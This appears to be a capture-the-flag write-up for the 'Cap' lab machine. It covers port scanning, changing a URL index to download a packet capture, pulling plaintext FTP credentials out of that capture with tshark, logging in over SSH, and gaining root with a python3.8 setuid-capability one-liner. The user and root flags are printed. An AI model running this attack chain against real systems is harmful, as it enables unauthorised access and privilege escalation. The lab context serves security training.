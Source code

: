 ![Cap.PNG](/assets/Machines/Easy/Cap/cap.PNG)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 1 10.10.10.245
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.245
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


3. Visit page

![web.PNG](/assets/Machines/Easy/Cap/web.PNG)


4. Click on `Security Snapshot`

![security.PNG](/assets/Machines/Easy/Cap/security.PNG)

* URL is: `http://10.10.10.245/data/1`

5. Change the last number in **URL** and search info.

* URL: `http://10.10.10.245/data/0`

![info.PNG](/assets/Machines/Easy/Cap/info.PNG)


6. Download the file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| file 0.pcap 
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

* The file is **.pcap** you can open with **Wireshark** or **tshark**

7. Open the file with **tshark**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap
```

**Output**
```bash
36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
37   4.126526 192.168.196.16 → 192.168.196.1 TCP 56 21 → 54411 [ACK] Seq=21 Ack=14 Win=64256 Len=0
38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
39   4.167701 192.168.196.1 → 192.168.196.16 TCP 62 54411 → 21 [ACK] Seq=14 Ack=55 Win=1051136 Len=0
40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
```

* The file have credentials, but, you can filter most especific

8. Ways to filter data
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp'
```

* Search how **ftp/tcp/http...**

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tjson 2>/dev/null
```

* Show information in Json

**Output**
```json
...
"tcp.analysis": {
            "tcp.analysis.acks_frame": "67",
            "tcp.analysis.ack_rtt": "0.000101000",
            "tcp.analysis.initial_rtt": "0.000364000",
            "tcp.analysis.bytes_in_flight": "14",
            "tcp.analysis.push_bytes_sent": "14"
          },
          "tcp.payload": "32:32:31:20:47:6f:6f:64:62:79:65:2e:0d:0a"
...
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null
```

* Filter for a especific field

```bash
323230202876734654506420332e302e33290d0a
55534552206e617468616e0d0a
33333120506c656173652073706563696679207468652070617373776f72642e0d0a
50415353204275636b33744834544630524d33210d0a
323330204c6f67696e207375636365737366756c2e0d0a
535953540d0a
32313520554e495820547970653a204c380d0a
504f5254203139322c3136382c3139362c312c3231322c3134300d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c4953540d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134310d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c495354202d616c0d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
5459504520490d0a
32303020537769746368696e6720746f2042696e617279206d6f64652e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134330d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
52455452206e6f7465732e7478740d0a
353530204661696c656420746f206f70656e2066696c652e0d0a
515549540d0a
32323120476f6f646279652e0d0a
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

* Convert hexadecimal data in plain text

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

9. Credentials to login `username: nathan` and `password: Buck3tH4TF0RM3!`

10. Login with ssh
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| sshpass -p "Buck3tH4TF0RM3\!" ssh nathan@10.10.10.245
```

* The password is `Buck3tH4TF0RM3!`, but, you scape the special character to fix errors.


**Output**
```bash
nathan@cap:~$
```

11. Cat a **user flag**
```bash
nathan@cap:~$ cat user.txt 
0262d1b1331698269a1b63a0d3ccf484
```

---
---

## Escalate privileges 💀

1. Search all capabilities 
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
```


**Output**
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

* **Python3.8** is available, now we exploit this.


2. Get `/bin/bash` how root
```bash
nathan@cap:~$ python3.8 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~| whoami
root
```

3. Read **root flag**
```bash
root@cap:~| cat /root/root.txt 
ab8755bcb4cb8d4d4a841921e7862111
```


